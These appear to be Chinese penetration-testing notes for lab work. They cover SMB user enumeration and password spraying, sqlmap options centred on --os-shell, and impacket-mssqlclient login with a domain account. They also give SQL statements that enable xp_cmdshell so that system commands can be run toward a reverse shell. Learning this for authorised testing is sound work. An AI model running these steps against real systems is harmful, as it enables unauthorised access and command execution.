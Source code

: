 在渗透测试中，我们通常先需要一对用户密码来访问SMB服务获取非默认共享中的一些可利用信息。这个步骤比较前面，所以在非域环境中，有时是不设置密码的，因为不需要横移没有那么多账户。

在AD域环境中，SMB服务还可以用来枚举域用户，枚举组等：

```
nxc smb   ...     --users
```

出来的用户名可以用我们已知的密码做密码喷洒

# 数据库

渗透测试比较常见的

1. Mysql                     mysql交互
2. MS SQL Server     impacket-mssqlclinet交互
3. Redis                      redis-cli交互

如果有web服务，可以考虑SQL注入，主要使用**sqlmap**工具，一些常用参数：

| 参数                             | 作用                                                         |
| -------------------------------- | ------------------------------------------------------------ |
| -r                               | 从文件加载HTTP请求（例如Burp抓包数据）,适用于需要处理Cookie或POST数据的复杂场景。 |
| --cookie                         | 设置cookie                                                   |
| --delay                          | 设置每次HTTP请求之间的延迟（秒）                             |
| --dbs                            | 枚举数据库                                                   |
| -D db_name -T tbl_name --columns | 枚举指定数据表中的所有列                                     |
| **--os-shell**                   | 尝试获取目标操作系统的命令行shell                            |

渗透测试中重点一般是`--os-shell`

如果没有web服务，我们往往可以通过一些敏感文件找到连接数据库的账户密码。比如最常见的是在网站源码中，或者名字为`db  db_passwd`的一些文件。Mssql比较特殊，它支持`--windows-auth`参数使用域账户密码进行连接，比如：

```
impacket-mssqlclient  ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
```

数据库连接上了以后：

1. 查询敏感数据，有可能会有所有用户和密码
2. 通过命令执行反弹shell，这通常是在我们还没有拿到shell或者远程登录条件的时候

关于第二点，重点讲一下`xp_cmdshell`，这是SQL Server一个臭名昭著的存储过程，可以执行系统命令，因此一般情况下是禁用的，需要管理员权限启用。当我们有账户密码却无法通过winrm等远程连接，而对应数据库又有管理员权限时,可以连上mssql执行：

```
SELECT is_srvrolemember('sysadmin');#查看有无管理员权限
EXEC xp_cmdshell 'net user';        #尝试执行命令，看xp_cmdshell是否启用
启用：
-- 首先展示高级选项
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
GO

-- 启用 xp_cmdshell
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO

-- 完成后，可以再次隐藏高级选项（可选）
EXEC sp_configure 'show advanced options', 0;
RECONFIGURE;
GO
```
